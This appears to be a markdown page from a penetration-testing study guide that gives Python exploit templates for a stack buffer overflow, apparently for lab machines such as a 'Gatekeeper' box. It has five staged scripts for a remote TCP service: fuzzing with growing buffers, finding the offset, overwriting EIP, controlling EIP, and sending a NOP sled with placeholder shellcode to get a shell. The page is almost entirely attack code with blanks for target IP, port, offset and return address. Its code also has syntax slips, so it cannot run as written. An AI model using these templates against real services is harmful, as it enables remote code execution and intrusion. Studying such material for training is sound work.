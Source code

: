 ### Python Templates for BOF                                                                                                        

There are different stages of BOF and we'll have different scripts for each stage:

### Spiking & Fuzzing
```Python
#!/usr/bin/python

import socket,sys
from time import sleep

buffer = "A" * 100
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21 

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((RHOST,RPORT))
        s.send(buffer + "\r\n")
        s.close()
        sleep(1)
        buffer += "A" * 100
    except:
        print("Debugger crashed at %s bytes" % str(len(buffer)))
        sys.exit
```
### Finding Offset
```Python
#!/usr/bin/python

import sys,socket
from time import sleep

buffer = #Based on at what bytes you get to EIP, generate your pattern and insert it here, example "AAAA"
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send(buffer + "\r\n")
    s.close()
except:
    print("Debugger crashed at %s bytes" % str(len(buffer)))
    sys.exit
```
### Overwriting EIP
```Python
#!/usr/bin/python

import socket,sys

buffer = #Based on the offset bytes, place your pattern here 
buffer += "B" * 4
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
### Owning EIP
```Python
#!/usr/bin/python

import socket,sys

buffer = "A" * (Offset Value)
buffer += #Address of EIP
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
### Getting a Shell
```Python
#!/usr/bin/python

import socket

shellcode = #Place your shellcode here
buff = "A" * (Offset Value)
buff += #Address of EIP 
buff += "\x90" * (8/10/12/16/20...) 
buff += shellcode
RHOST = #IP address of the target machine, example: "10.10.10.0"
RPORT = #Port number of the target machine, example: 21

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((RHOST,RPORT))
s.send(buff + "\r\n")
s.close()
```
[<= Go Back to Gatekeeper Menu](GatekeeperMain.md)

[<= Go Back to BOF Menu](BOFMain.md)

[<= Go Back to Main Menu](index.md)
